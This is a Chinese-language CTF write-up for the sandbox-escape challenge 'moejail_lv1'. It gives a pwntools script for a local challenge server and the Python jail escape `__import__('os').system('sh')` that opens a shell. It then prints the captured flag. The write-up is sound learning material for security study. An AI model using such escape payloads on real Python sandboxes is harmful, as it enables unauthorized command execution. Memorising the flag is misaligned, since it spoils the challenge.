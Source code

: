 ```yaml
---
hide:
  #- navigation # 显示右
  #- toc #显示左
  - footer
  - feedback
comments: true
---  
```


# Misc-9｜moejail_lv1

## 复盘感想

这是一个全新的 Misc 题型：沙箱逃逸，需要从一个看似难以逃脱的程序中跳出来进入对方终端获取信息
***
## Writeup

使用脚本直接打过去（当然也可以不用脚本直接手动完成，这可能是个非预期），完成字符串连接的题目进入 payload 环节：

```python
from pwn import *

server_ip = '127.0.0.1'
server_port = 49871

connection = remote(server_ip, server_port)

received_data = connection.recv().decode('utf-8')
send_data = received_data[-32:-26] + received_data[-23:-17]

print(received_data)

connection.sendline(send_data.encode('utf-8'))
connection.interactive()
connection.close()
```

对于这类题目，我们直接执行攻入终端代码：`__import__('os').system('sh')`，命令行 `ls` 即可发现文件信息：

![](../../../../assets/Pasted%20image%2020241025234220.png)

经过一番寻找，发现有关 flag 位置的文件：

![](../../../../assets/Pasted%20image%2020241025234240.png)
![](../../../../assets/Pasted%20image%2020241025234616.png)

不知道为什么直接 cat 打不开文件，但是命令行通配符就可以打开（通配符即用 * 省略后面长长一串），即可得到 flag : `moectf{Ah-H@_NOW_y0U-Kn0w-h0W_to-ESCapE_5IMPI3-5TR1NG-Fi1ter0}`

![](../../../../assets/Pasted%20image%2020241025234325.png)
